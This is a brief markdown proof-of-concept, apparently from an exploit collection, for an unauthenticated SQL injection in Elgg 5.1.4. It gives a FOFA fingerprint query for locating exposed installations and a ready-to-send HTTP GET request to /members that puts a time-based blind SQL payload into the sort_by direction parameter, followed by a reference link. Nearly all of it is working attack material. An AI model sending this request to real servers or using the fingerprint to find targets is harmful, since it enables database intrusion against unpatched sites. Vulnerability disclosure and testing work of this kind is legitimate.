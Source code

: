 ## Elgg 5.1.4 Sql Injection

## fofa
```
icon_hash="413602919"
```
## poc
```
GET /members?sort_by%5Bproperty%5D=name&sort_by%5Bproperty_type%5D=metadata&sort_by%5Bdirection%5D=desc%2c(select*from(select(sleep(6)))a) HTTP/1.1
Host: 
```

## Ref
- https://github.com/4rdr/proofs/blob/main/info/Elgg_unauth_SQLi_5.1.4.md